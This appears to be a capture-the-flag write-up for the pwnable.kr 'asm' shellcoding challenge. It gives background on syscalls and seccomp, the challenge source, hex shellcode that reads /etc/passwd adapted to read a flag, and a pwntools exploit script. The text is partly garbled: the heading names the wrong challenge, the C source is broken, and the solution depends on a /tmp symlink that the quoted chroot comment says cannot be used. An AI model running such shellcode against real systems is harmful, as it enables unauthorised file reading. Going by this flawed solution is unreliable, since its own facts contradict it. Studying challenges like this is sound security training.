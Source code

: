 # bof

## Description

asm - 6 pt

> Mommy! I think I know how to make shellcodes <br>
> ssh asm@pwnable.kr -p2222 (pw: guest)

## Solution

### Background

#### Shellcodes

A shellcode is a set of instructions that can be executed by the processor. Shellcodes are often injected into a program to execute arbitrary code, such as opening a shell or reading a file. Most of times, the injection is done using a buffer overflow, and the execution of the shellcode is done by jumping to the address of the injectioned code.

#### System calls

A syscall is a way for a program to interact with the operating system, and request a service. For example, the syscall `open` will open a file, and the syscall `read` will read the content of a file. 

Syscalls are done by interrupting the processor, and passing control the kernel. The kernel will then execute the syscall, and return the result to the program. 

In practice, the program will call `int` with the right interrupt nubmer - so the interrupt handler will be the kernel. Also, the program will pass the syscall number in the `eax` register, and the arguments in the other registers. The kernel will then execute the syscall, and return the result in the `eax` register.

#### seccomp

Seccomp is a Linux kernel feature that allows to restrict the syscalls that a program can use. It is often used to prevent a program from executing arbitrary code, by only allowing a limited set of syscalls.

### Exploit

Logging into the server, we get the following files:

```bash
-rwxr-xr-x 1 root root 13704 Nov 29  2016 asm
-rw-r--r-- 1 root root  1793 Nov 29  2016 asm.c
-rw-r--r-- 1 root root   211 Nov 19  2016 readme
-rw-r--r-- 1 root root    67 Nov 19  2016 this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong
```

The `asm.c` file contains the source code of the program, the `readme` file tells us the program runs with the right permissions on port `9026`, and the very long file is only there to inicate the name of the flag file.

Let's take a look at the source code:

```c

#define LENGTH 128

void sandbox(){
	scmp_		_ctx ctx = seccomp_init(SCMP_ACT_KILL);
	if (ctx == NULL) {
		printf("seccomp error\n");
		exit(0);
	}

	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);

	if (seccomp_load(ctx) < 0){
		seccomp_release(ctx);
		printf("seccomp error\n");
		exit(0);
	}
	seccomp_release(ctx);
}

char stub[] = "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff";
unsigned char filter[256];
int main(int argc, char* argv[]){

	setvbuf(stdout, 0, _IONBF, 0);
	setvbuf(stdin, 0, _IOLBF, 0);

	printf("Welcome to shellcoding practice challenge.\n");
	printf("In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\n");
	printf("Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\n");
	printf("If this does not challenge you. you should play 'asg' challenge :)\n");

	char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
	memset(sh, 0x90, 0x1000);
	memcpy(sh, stub, strlen(stub));
	
	int offset = sizeof(stub);
	printf("give me your x64 shellcode: ");
	read(0, sh+offset, 1000);

	alarm(10);
	chroot("/home/asm_pwn");	// you are in chroot jail. so you can't use symlink in /tmp
	sandbox();
	((void (*)(void))sh)();
	return 0;
}
```

It looks like the program takes a shellcode as input, and executes it. However, the a seccomp filter is applied, and the program is only allowed to use the syscalls `open`, `read`, `write`, `exit` and `exit_group`.

Also, the program uses `chroot` to run in `/home/asm_pwn`, so we can't use symlinks in `/tmp`.

Our goal is fairly simple: we need to make a shellcode that will open the flag file, read it, and print it to the screen using the `open`, `read` and `write` syscalls.

We can either write our own shellcode, or simply look one up online. The website [shell-storm](http://shell-storm.org/shellcode/) is a good place to look for shellcodes, and it seems like [this](https://shell-storm.org/shellcode/files/shellcode-878.html) `/etc/passwd` reader is a good starting point.

Here are the instructions:

```asm
_start:
jmp _push_filename
  
_readfile:
; syscall open file
pop rdi ; pop path value
; NULL byte fix
xor byte [rdi + 11], 0x41
  
xor rax, rax
add al, 2
xor rsi, rsi ; set O_RDONLY flag
syscall
  
; syscall read file
sub sp, 0xfff
lea rsi, [rsp]
mov rdi, rax
xor rdx, rdx
mov dx, 0xfff; size to read
xor rax, rax
syscall
  
; syscall write to stdout
xor rdi, rdi
add dil, 1 ; set stdout fd = 1
mov rdx, rax
xor rax, rax
add al, 1
syscall
  
; syscall exit
xor rax, rax
add al, 60
syscall
  
_push_filename:
call _readfile
path: db "/etc/passwdA"
```

And this is the actual shellcode:
```
\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41
```

As we've already stated, the above shellcode reads the `/etc/passwd` file. We need to modify it to read the flag file instead.

Before doing that, there are 2 observations we need to make here:

* the path of the file read by the shellcode is stored in the very last bytes, and is terminated by the `A` character - to avoid a null byte.

* the program `xor`s the last byte of the path with `0x41` - to avoid a null byte, and so if we change the length of the path, we need to change the offset of the `xor` instruction accordingly.

Having that in mind, a quick modification of the shellcode is to change the path to `/tmp/a/flag`. The length of this new path is the same as `/etc/passwd`, so we don't need to change the offset of the `xor` instruction:

```
\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x74\x6D\x70\x2F\x61\x2F\x66\x6C\x61\x67\x41
```

By creating a symlink in `/tmp/a` to the flag file, we can read the flag file using the modified shellcode.

And so, the final exploit is:

```python
from pwn import *

# create a symlink in /tmp
ssh = ssh('asm', 'pwnable.kr', port=2222, password='guest')

ssh.mkdir('/tmp/a')
SSHPath('/tmp/a/flag', ssh=ssh).symlink_to('/home/asm_pwn/this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong')

# connect to the server and send the shellcode
con = remote('pwnable.kr', 9026)

con.sendline('\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x74\x6D\x70\x2F\x61\x2F\x66\x6C\x61\x67\x41')

con.interactive()
```

```
Mak1ng_shelLcodE_i5_veRy_eaSy
```